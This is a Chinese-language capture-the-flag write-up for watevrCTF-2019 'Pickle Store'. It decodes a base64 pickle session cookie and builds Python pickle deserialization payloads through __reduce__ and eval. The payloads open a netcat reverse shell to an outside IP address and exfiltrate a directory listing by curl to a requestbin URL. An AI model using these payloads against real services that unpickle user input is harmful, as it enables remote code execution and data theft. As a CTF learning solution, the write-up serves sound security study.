 # \[watevrCTF-2019]Pickle Store

## \[watevrCTF-2019]Pickle Store

## 考点

* pickle反序列化

## wp

题目名字也提示了是pickle反序列化

先看看session

```
gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu
```

base64解码得到

```
\x80\x03}q\x00(X\x05\x00\x00\x00moneyq\x01M\xf4\x01X\x07\x00\x00\x00historyq\x02]q\x03X\x10\x00\x00\x00anti_tamper_hmacq\x04X \x00\x00\x00aa1ba4de55048cf20e0a7a63b7f8eb62q\x05u.
```

python中使用pickle.dumps()函数序列化，使用pickle.loads()函数反序列化，这两个函数是操作字符串的。

不同版本或者不同平台下Python序列化结果不同

`\x80\x03`是Python pickle反序列化的标准开头

```python
import binascii
import pickle

s='gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu'
pickle.loads(binascii.a2b_base64(s))
```

反序列化之后可以得到一个字典

```
{'money': 500, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'}
```

题目提示够买flag需要1000块，感觉修改字典再序列化

![](<../../.gitbook/assets/image (31) (1).png>)

```python
t = {'money': 1000, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'}
binascii.b2a_base64(pickle.dumps(t))
# b'gASVUgAAAAAAAAB9lCiMBW1vbmV5lE3oA4wHaGlzdG9yeZRdlIwQYW50aV90YW1wZXJfaG1hY5SMIGFhMWJhNGRlNTUwNDhjZjIwZTBhN2E2M2I3ZjhlYjYylHUu\n'
```

尝试失败，再看字典的元素，`anti_tamper_hmac`这个元素在够买后发生了改变，应该是后端对key和value做了某种hash加密，由于不知道加密方式，所以不能修改`money`。

尝试反序列化RCE

```python
import binascii
import pickle

shell = '''__import__('os').system('nc 81.68.218.54 30000 -e/bin/sh')'''

class Evil(object):
    def __reduce__(self):
        return (eval, (shell,))
s = Evil()
print(binascii.b2a_base64(pickle.dumps(s)))
```

得到`gASVVgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIw6X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ25jIDgxLjY4LjIxOC41NCAzMDAwMCAtZS9iaW4vc2gnKZSFlFKULg==`

修改session刷新页面即可反弹shell

![](<../../.gitbook/assets/image (19) (1) (1).png>)

或者使用[`RequestBin`](http://requestbin.cn)接收数据

```python
import binascii
import pickle

shell = '''__import__('os').system("echo `ls` > /tmp/1.txt;curl -v -X POST 'http://requestbin.cn:80/t9dmemt9' -d @/tmp/1.txt")'''

class Evil(object):
    def __reduce__(self):
        return (eval, (shell,))
s = Evil()
print(binascii.b2a_base64(pickle.dumps(s)))
```

![](<../../.gitbook/assets/image (18) (2).png>)
